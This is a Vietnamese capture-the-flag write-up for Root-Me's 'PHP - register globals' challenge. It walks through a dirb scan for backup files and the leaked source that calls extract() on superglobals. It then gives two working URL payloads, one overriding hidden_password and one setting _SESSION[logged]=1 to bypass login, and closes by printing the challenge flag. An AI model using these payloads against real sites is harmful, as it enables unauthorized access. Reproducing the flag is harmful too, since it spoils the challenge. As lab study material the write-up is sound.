 # PHP - register globals

**25 Points - Medium**

**Statement**

It seems that the developper often leaves backup files around...

## Analysis:

Chủ đề challenge là về lỗ hổng trong tính năng [register globals](https://stackoverflow.com/questions/3593210/what-are-register-globals-in-php) của PHP. Trong [document](https://repository.root-me.org/Programmation/PHP/EN%20-%20Using%20register%20globals%20in%20PHP.pdf) của challenge, tính năng này đã bị tắt mặc định từ phiên bản **>= 4.2.0** và đã bị loại bỏ từ phiên bản PHP >= **5.3.0**. *Global variable* là những biến toàn cục trong PHP (a.k.a superglobals) và có thể được set giá trị/chỉnh sửa từ bất kỳ đâu. Có 9 loại chính :

- $GLOBALS
- $_SERVER
- $_GET
- $_POST
- $_FILES
- $_ENV
- $_COOKIE
- $_SESSION
- $_REQUEST

Điều này rất nguy hiểm dẫn đến việc kiểm soát các giá trị của bất kỳ biến nào theo hacker mong muốn, dễ thấy nhất là bằng **URL query parameter**. Trong bài lần này, ta thử tìm kiếm input point có lỗ hổng, giá trị trong trường password không ảnh hưởng gì đến server. Thử đến nơi mà "ít người để ý" đến, là các **session** *(Edge: Developer Tools -> Application -> Cookies)*. Thay đổi giá trị `PHPSESSID` thành `..` xem sao:

![image](images/content1.png)

Có lỗi xuất hiện, trường này không được nhập ký tự đặc biệt chỉ cho `[a-z] [A-Z] [0-9]`. Và bên server có dùng hàm `session_start()` để mở một phiên (session). Nhưng mà đến đây thì vẫn khá stuck, chưa khai thác được gì. Ta có thể thay đổi giá trị/tạo giá trị biến mới nhưng quan trọng là biến này sẽ ảnh hưởng như thế nào để lấy flag.

Suy nghĩ một hồi thì dùng cách đoán mò thôi :)) . Đề cho thông điệp là `the developper often leaves backup files around`, vậy có thể có đường dẫn của file backup ở đâu đây. Cái này mình sẽ dùng tool `dirb` (Kali Linux) và dùng [PHP wordlist](https://gitlab.com/kalilinux/packages/seclists/blob/b83a756bb2c06f94c03e525326e8480981b58a9c/Discovery/Web-Content/Common-PHP-Filenames.txt).

Vì mình chỉ cần scan những file backup

<p align="center"><img src="images/search1.png"></p>

Nên wordlist trên hơi "bự". Dùng lệnh sau để trích xuất wordlist mới:

```bash
cat Common-PHP-Filenames.txt| grep "bak" > Common-PHP-Filenames-Backup.txt
```

Sau đó vét các đường dẫn hợp lệ để xem file cần tìm:

```bash
dirb http://challenge01.root-me.org/web-serveur/ch17/ Common-PHP-Filenames-Backup.txt 
```

<p align="center"><img src="images/console1.png"></p>

Có file hợp lệ tại `http://challenge01.root-me.org/web-serveur/ch17/index.php.bak`. Tải file về ta được source code sau:

```php
<?php


function auth($password, $hidden_password){
    $res=0;
    if (isset($password) && $password!=""){
        if ( $password == $hidden_password ){
            $res=1;
        }
    }
    $_SESSION["logged"]=$res;
    return $res;
}

function display($res){
    $aff= '
	  <html>
	  <head>
	  </head>
	  <body>
	    <h1>Authentication v 0.05</h1>
	    <form action="" method="POST">
	      Password&nbsp;<br/>
	      <input type="password" name="password" /><br/><br/>
	      <br/><br/>
	      <input type="submit" value="connect" /><br/><br/>
	    </form>
	    <h3>'.htmlentities($res).'</h3>
	  </body>
	  </html>';
    return $aff;
}

session_start();
if ( ! isset($_SESSION["logged"]) )
    $_SESSION["logged"]=0;

$aff="";
include("config.inc.php");

if (isset($_POST["password"]))
    $password = $_POST["password"];

if (!ini_get('register_globals')) {
    $superglobals = array($_SERVER, $_ENV,$_FILES, $_COOKIE, $_POST, $_GET);
    if (isset($_SESSION)) {
        array_unshift($superglobals, $_SESSION);
    }
    foreach ($superglobals as $superglobal) {
        extract($superglobal, 0 );
    }
}

if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}
echo $aff;
?>
```

Sơ lược về đoạn code trên, điều kiện mình cần làm để lấy flag ở đoạn code cuối:

```php
if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}
```

## Solution:

### Vector Attack 1 (không thành công):

- Trong điều kiện đầu tiên, `isset ($password) && $password!="" && auth($password,$hidden_password)==1) `

Ta có thể được **authenticated** khi password ta nhập vào bằng với `$hidden_password`. Thì `$_SESSION["logged"]=$res;`, tức là biến `_SESSION[logged]` được set bằng `1` theo như function dưới:

```php
function auth($password, $hidden_password){
    $res=0;
    if (isset($password) && $password!=""){
        if ( $password == $hidden_password ){
            $res=1;
        }
    }
    $_SESSION["logged"]=$res;
    return $res;
}
```

Ở đây có file `config.inc.php` nhưng mình không thể nào lấy nó ra được. Vậy là không thể xác định giá trị của `$hidden_password`. Nhưng mình có thể tận dụng tính năng `register_global` để set lại giá trị của biến `$hidden_password`. Payload:

```
http://challenge01.root-me.org/web-serveur/ch17/?hidden_password=khangtictoc
```
Nhập password là `khangtictoc`.

<p align="center"><img src="images/fake_flag.png"></p>

Cho dù xác thực thành công nhưng ta không thể in ra giá trị của `$hidden_password` gốc (cái mà ta cần tìm)

### Vector attack 2:

- Trong điều kiện thứ 2 `(is_array($_SESSION) && $_SESSION["logged"]==1 )`

Ta sẽ được **authenticated** nếu `$_SESSION["logged"]==1` và `is_array($_SESSION)` tức là biến `_SESSION` là một mảng (cái này thì cũng auto pass), vậy với vulnerability `register_global` thì mình có thể set lại giá trị của biến `_SESSION["logged"]` thông qua URL luôn. Payload:

```
http://challenge01.root-me.org/web-serveur/ch17/?_SESSION[logged]=1
```

> NOTE: Truyền vào tham số dưới dạng **assciative array** thì không cần double-quote `""`

<p align="center"><img src="images/flag.png"></p>

> NOTE: Session này đã được lưu lại với `_SESSION[logged]` nên bất kỳ khi nào vào trang web với session này (trong cookie session) thì cũng auto được authenticated.

Flag: **NoTQYipcRKkgrqG**

